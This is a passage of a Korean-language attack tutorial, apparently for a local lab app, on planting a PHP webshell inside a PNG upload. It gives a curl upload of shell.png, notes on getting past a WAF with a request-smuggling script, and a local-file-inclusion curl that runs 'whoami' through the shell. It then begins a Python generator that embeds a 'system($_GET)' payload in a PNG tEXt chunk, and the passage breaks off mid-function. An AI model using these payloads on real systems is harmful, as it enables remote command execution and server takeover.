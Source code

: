 #### 일반 업로드 (WAF 없을 때)
```bash
curl -X POST http://localhost:9000/api/submit_inquiry.php \
  -F "name=test" \
  -F "email=test@test.com" \
  -F "phone=010-1234-5678" \
  -F "category=technical" \
  -F "subject=test" \
  -F "message=test" \
  -F "image=@shell.png"
```

**WAF 반응**:
```
✅ 파일명: .png → 통과
✅ MIME 타입: image/png → 통과
✅ 매직 바이트: \x89PNG → 통과
⚠️ PHP 코드: <?php system → Rule 999001 차단 가능
```

#### Request Smuggling (WAF 우회)
```bash
python3 smuggle_png_webshell.py
```

### Step 4: LFI로 실행

**중요**: PNG 파일을 **직접 접근하면 이미지로 다운로드**됨. PHP로 실행하려면 **LFI 취약점** 필요!

```bash
# 방법 1: LFI 취약점 이용 (support.php)
curl "http://localhost:9000/support.php?lang=../../uploads&page=shell.png&cmd=whoami"

# 방법 2: .htaccess 조작 (불가능할 수 있음)
# 방법 3: PHP 파일에서 include (별도 취약점 필요)
```

**결과**:
```
www-data
[PNG 이미지 데이터 + 출력]
```

---

## 🛠️ 방법 2: PNG tEXt 청크에 PHP 코드 삽입 (고급)

### Python 스크립트로 생성

```python
#!/usr/bin/env python3
"""
PNG 웹쉘 생성기 (tEXt 청크에 PHP 코드 삽입)
"""

import struct
import zlib

def create_png_chunk(chunk_type, data):
    """PNG 청크 생성"""
    chunk_data = chunk_type + data
    crc = zlib.crc32(chunk_data) & 0xffffffff
    return struct.pack('>I', len(data)) + chunk_data + struct.pack('>I', crc)

def create_png_webshell(output_file='shell.png', php_code='<?php system($_GET["c"]); ?>'):
    """PNG 웹쉘 생성"""

```